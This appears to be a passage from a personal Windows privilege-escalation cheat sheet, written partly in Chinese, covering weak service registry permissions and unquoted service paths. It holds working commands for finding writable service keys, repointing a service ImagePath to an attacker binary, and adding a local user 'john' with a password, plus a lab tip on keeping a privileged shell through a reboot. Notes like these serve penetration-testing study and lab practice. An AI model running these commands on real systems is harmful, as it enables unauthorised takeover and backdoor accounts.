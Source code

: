 ```bat

cacls "C:\path\to\file.exe"
```

### reg weak perm
+ check permissions over a service registry
+ Check if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl
+ RpcEptMapper绕过无法编辑ImagePath; AppendData/AddSubdirectory permission over service registry, [hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/appenddata-addsubdirectory-permission-over-service-registry)

```bat
# Get the binary paths of the services
reg query hklm\System\CurrentControlSet\Services /s /v imagepath 

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

# change the path
reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f

reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\WeakService /v ImagePath /t REG_SZ /d "net user john Password123! /add" /F

# 检查Everyone对注册表中服务的配置有相关权限的项
# 这里检查出Everyone用户对WeakService有读写权
.\accesschk.exe "Everyone" -kvuqsw HKLM\SYSTEM\CurrentControlSet\services

accesschk.exe /accepteula "Authenticated Users" -kvuqsw HKLM\SYSTEM\CurrentControlSet\services

# powersploit
# https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
Get-ModifiablePath
```

### Unquoted Service path

+ 当前用户对目标目录可写
+ 需重启服务，可能需重启系统
+ windows调用CreateProcess API时因空格引起的加载特性
+ practise pg ut99. delay the reboot by a few seconds and also chain the exit command (e.g. shutdown -r -t 10 && exit). This will schedule the reboot and terminate our shell properly after a second or two without crashing the service. The reboot will then succeed without issues, and we will get our privileged shell back.

For example, for the path `C:\Program Files\My Program\My Service\service.exe`
